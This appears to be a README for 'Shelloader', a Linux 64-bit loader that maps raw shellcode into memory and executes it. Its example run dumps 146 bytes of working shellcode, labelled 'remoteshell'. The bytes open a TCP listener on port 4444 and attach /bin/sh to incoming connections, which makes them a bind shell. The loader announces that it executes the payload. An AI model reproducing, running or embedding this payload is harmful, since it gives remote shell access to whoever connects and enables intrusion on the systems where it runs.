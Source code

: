 Shelloader
===========

Linux 64-Bit mmap based shellcode loader.

Example usage with remoteshell shellcode
-----------------------------------------

[rj@localhost shelloader]$ ./shelloader shell.o<br>
Linux 64-Bit mmap based shellcode loader by Travis "rjkall".<br>
[*] Examining shell.o...<br>
[*] EI_MAG0 = 0x7f, continuing...<br>
[*] Found .text section at address 0x00000040 with length of 146 bytes<br>
[*] Dumping shellcode...<br>
\x55\x48\x89\xe5\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc1\x48\x83\xec\x10\x66\xc7\x45\xf2\x11\x5c\xbe\x80\xff\xff\xfe\xf7\xd6\x89\x75\xf4\xc6\x45\xf0\x02\x4c\x89\xcf\x48\x8d\x75\xf0\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x4c\x89\xcf\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x83\xec\x10\x4c\x89\xcf\x48\x8d\x75\xf0\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x48\x83\xfe\x03\x7d\x0d\x4c\x89\xc7\x6a\x21\x58\x0f\x05\x48\xff\xc6\xeb\xed\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x48\xc1\xe8\x08\x50\x54\x5f\x6a\x3b\x58\x0f\x05\x48\x31\xff\x6a\x3c\x58\x0f\x05
<br>[*] Executing shellcode...<br>


